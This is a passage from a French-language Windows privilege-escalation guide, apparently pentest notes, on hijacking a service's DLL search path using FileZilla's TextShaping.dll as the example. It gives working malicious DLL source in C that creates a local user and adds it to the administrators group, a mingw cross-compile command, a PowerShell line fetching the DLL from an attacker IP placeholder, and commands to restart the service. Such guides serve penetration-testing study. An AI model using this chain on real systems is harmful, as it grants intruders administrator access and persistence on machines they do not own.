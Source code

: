 Exemple (FileZilla - bien que ce soit une application de bureau, le principe s'applique aux services) :
L'application tente de charger `TextShaping.dll` depuis son répertoire d'installation.

**2. Vérifier les Permissions d'Écriture**
Vérifiez si vous avez des droits d'écriture dans le répertoire où la DLL est recherchée (par exemple, le répertoire du service, ou un chemin dans le PATH système si la DLL n'est pas trouvée localement).
```powershell
# echo "test" > 'C:\Chemin\Vers\RepertoireService\test.txt'
# type 'C:\Chemin\Vers\RepertoireService\test.txt'
```

**3. Créer une DLL Malveillante**
```c
// malicious_dll.c
#include <windows.h>
#include <stdlib.h>

BOOL APIENTRY DllMain( HANDLE hModule, DWORD  ul_reason_for_call, LPVOID lpReserved ) {
    switch (ul_reason_for_call) {
        case DLL_PROCESS_ATTACH:
            system("net user nomutilisateur motdepasse /add");
            system("net localgroup administrators nomutilisateur /add");
            break;
        case DLL_THREAD_ATTACH:
        case DLL_THREAD_DETACH:
        case DLL_PROCESS_DETACH:
            break;
    }
    return TRUE;
}
```
Compiler (nommer la DLL comme celle qui est recherchée, ex: `TextShaping.dll`) :
```bash
# Sur Kali
x86_64-w64-mingw32-gcc malicious_dll.c --shared -o TextShaping.dll
```

**4. Placer la DLL et Redémarrer le Service**
```powershell
# Transférer la DLL malveillante dans le répertoire approprié
# iwr -uri http://<IP_ATTAQUANT>/TextShaping.dll -OutFile 'C:\Chemin\Vers\RepertoireService\TextShaping.dll'

# Redémarrer le service (ou attendre qu'il soit redémarré/que l'application soit lancée)
Stop-Service NomDuService
Start-Service NomDuService
```
Si le service s'exécute avec des privilèges élevés, votre code dans la DLL sera exécuté avec ces privilèges.

## Exploitation des Services Mal Configurés (Permissions)
Ceci est souvent un synonyme de "Détournement de Binaire de Service" où les permissions sur le fichier binaire du service lui-même sont trop laxistes.
